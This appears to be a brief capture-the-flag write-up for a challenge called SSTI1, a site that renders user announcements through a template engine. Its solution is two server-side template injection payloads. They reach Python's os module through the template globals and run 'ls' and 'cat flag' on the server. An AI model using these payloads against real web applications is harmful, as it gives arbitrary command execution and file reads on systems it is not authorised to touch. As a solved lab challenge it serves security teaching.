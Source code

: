 ## SSTI1

### Description  

I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps!


---





{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}